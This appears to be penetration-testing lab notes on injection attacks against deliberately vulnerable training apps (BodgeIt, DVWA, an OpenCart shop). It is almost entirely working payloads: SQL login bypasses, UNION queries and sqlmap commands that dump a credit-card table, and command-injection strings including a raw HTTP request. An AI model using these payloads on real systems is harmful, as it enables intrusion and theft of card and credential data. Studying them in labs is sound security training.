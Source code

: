 # A1 - Injection


## SQL Injection

### Into string 
BodgeIt login

`' or 1=1);--`

`admin@thebodgeitstore.com' or '1'='1);--`

### String (low) and numeric (medium)

Examples on [DVWA](http://dvwa.lab/dvwa/vulnerabilities/sqli/)

```
1' or '1'='1
1' or 1=1#
1' union select null, version()#
1' union select null, concat(user(),0x0a,database())#
1' and 1=0 union select null, table_name from information_schema.tables#
1' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#
1' and 1=0 union select null, concat(first_name,0x20,last_name,0x3a,user,0x3a,password) from users #
```

Examples on ["AwesomeShop"](http://awesome.lab/oc/)

Confirmation of SQLi

`http://awesome.lab/oc/index.php?route=information/information/info&information_id=-2490%27%20UNION%20ALL%20SELECT%20NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CCONCAT%28IFNULL%28CAST%28VERSION%28%29%20AS%20CHAR%29%2C0x20%29%29%2CNULL%2CNULL%23`

enumerate columns count

`http://awesome.lab/oc/index.php?route=information/information/info&information_id=-2490%27%20order%20by%2010%23`

get db user, host, DBMS version, DB

`http://awesome.lab/oc/index.php?route=information/information/info&information_id=-2490%27%20UNION%20ALL%20SELECT%20NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CCONCAT%28USER%28%29%2C0x20%2CDATABASE%28%29%2C0x20%2C@@VERSION%29%2CNULL%2CNULL%23`

get tables count to iterate

`http://awesome.lab/oc/index.php?route=information/information/info&information_id=-3444%27%20UNION%20ALL%20SELECT%20NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CCONCAT%28COUNT%28*%29%29%2CNULL%2CNULL%2CNULL%20FROM%20INFORMATION_SCHEMA.TABLES%20WHERE%20table_schema%20IN%20%28%27opencart%27%29%23`

get table names

`http://awesome.lab/oc/index.php?route=information/information/info&information_id=-3444%27%20UNION%20ALL%20SELECT%20NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CCONCAT%28table_name%29%2CNULL%2CNULL%2CNULL%20FROM%20INFORMATION_SCHEMA.TABLES%20WHERE%20table_schema%20IN%20%28%27opencart%27%29%20limit%200,1%23`
... LIMIT 2,1


get column names

`http://awesome.lab/oc/index.php?route=information/information/info&information_id=-3428' UNION ALL SELECT NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2C(SELECT CONCAT(column_name,0x20,column_type) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='cc' AND table_schema='opencart' LIMIT 0,1)%2CNULL%2CNULL%2CNULL%23`
... LIMIT 2,1

dump the data

`http://awesome.lab/oc/index.php?route=information/information/info&information_id=-3428%27%20UNION%20ALL%20SELECT%20NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2C%28SELECT%20CONCAT%28id,0x2c,CSC,type,0x2c,ccnum,0x2c,state,0x2c,expire_m,0x2c,expire_y,0x2c,last_name,0x2c,first_name%29%20FROM%20opencart.cc%20LIMIT%200,1%29%2CNULL%2CNULL%2CNULL%23`


Using sqlmap
```
sqlmap -b --dbms=mysql --batch -u 'http://awesome.lab/oc/index.php?route=information/information/info&information_id=3*'
sqlmap --current-db  --technique=U --dbms=mysql --batch -u 'http://awesome.lab/oc/index.php?route=information/information/info&information_id=3*'
sqlmap --schema -D 'opencart' --technique=U --dbms=mysql --batch -u 'http://awesome.lab/oc/index.php?route=information/information/info&information_id=3*'
sqlmap --dump -T 'cc' -D 'opencart' --technique=U --dbms=mysql --batch -u 'http://awesome.lab/oc/index.php?route=information/information/info&information_id=3*'
```

## Command injection

Try it on `http://dvwa.lab/dvwa/vulnerabilities/exec/`

```
127.0.0.1;id
127.0.0.1&id
x||id
```

```
POST /dvwa/vulnerabilities/exec/ HTTP/1.1
Host: dvwa.lab
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dvwa.lab/dvwa/vulnerabilities/exec/
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Connection: close
Cookie: security=high; PHPSESSID=1mdh1pt8dt42taesnorvlh9og2
Upgrade-Insecure-Requests: 1

ip=127.0.0.1%0d%0Aid&Submit=Submit
```
